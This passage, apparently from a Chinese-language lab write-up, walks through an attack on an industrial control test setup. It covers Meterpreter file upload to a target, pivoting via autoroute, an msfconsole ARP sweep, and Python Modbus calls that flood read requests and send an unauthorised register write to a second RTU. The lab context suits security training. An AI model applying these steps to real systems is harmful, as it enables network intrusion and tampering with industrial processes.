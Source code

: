 ![](202204/pic/meterpreter.png)

常用命令

```sh
meterpreter > getwd # 显示靶机当前目录
meterpreter > getlwd # 攻击机当前目录
# 攻击机文件上传到靶机
meterpreter > upload '/home/mika/D/tcpmaster_example.py' 'C:\\Documents and Settings\\xuegod_root\\桌面'
```

可以把python程序编译成exe，在靶机上执行

##### （2.5）借助RTU1作为跳板攻击其他RTU

pivot技术参考[Metasploit - Pivoting (tutorialspoint.com)](https://www.tutorialspoint.com/metasploit/metasploit_pivoting.htm)

在meterpreter下：首先对靶机ipconfig，在另一网段上IP为10.10.10.101，所以网段为10.10.10.0/24，通过autoroute将该网段添加至路由表

```sh
meterpreter > sessions 1 # 使用会话1
meterpreter > run autoroute -s 10.10.10.0/24
meterpreter > background # 暂时退出当前会话
```

![](202204/pic/autoroute.png)

然后扫描该网段（这里用192.168.10.0/24）内的主机IP，再进行攻击

```sh
sudo msfconsole # 需要root权限
use auxiliary/scanner/discovery/arp_sweep
set RHOSTS 192.168.10.0/24
set THREADS 50
run
```

![](202204/pic/扫描网段.png)



##### （3）RTU1连续发送读取数据包给RTU2

```python
res = master.execute(slave=2, function_code=md.READ_HOLDING_REGISTERS,
                     starting_address=0, quantity_of_x=10, output_value=5)
```



##### （4）发送未授权命令

```python
res = master.execute(slave=2, function_code=md.WRITE_SINGLE_REGISTER,
                     starting_address=0, output_value=6)
```

